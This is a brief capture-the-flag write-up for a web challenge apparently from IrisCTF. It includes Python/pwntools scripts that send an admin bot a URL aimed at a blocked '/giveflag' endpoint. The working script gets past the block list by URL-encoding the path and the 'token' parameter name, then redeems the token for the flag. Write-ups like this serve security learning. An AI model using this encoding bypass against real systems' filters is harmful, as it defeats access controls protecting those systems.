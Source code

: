 ```yaml
---
ai_date: 2025-04-27 05:27:17
ai_summary: Bypassed URL encoding to exploit '/giveflag' endpoint
ai_tags:
  - url-encoding
  - bypass
  - http-params
created: 2025-01-04T20:01
points: 50
solves: 152
tags:
  - url
  - normalization
updated: 2025-07-14T09:46
---
```


I knew from a glance that we have to bypass the url block list.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736122279/2025/01/eb88daca51107b101aaaa0a81793cbac.png)

I knew I can just use a second argument to bypass `token`, but idk how to bypass `*/giveflag`

```python
import requests
from pwn import *
context.log_level = "error"
t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)
p = t+'/giveflag?foo=bar&token='+token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(p.encode())
print(p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

My teammate @dxleryt then solved it.

```python
import requests
from pwn import *

context.log_level = "error"

t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)

encoded_p = t + "/%2fgiveflag?%74oken=" + token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(encoded_p.encode())
print(encoded_p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

```flag
irisctf{flag_blocked_by_admin}
```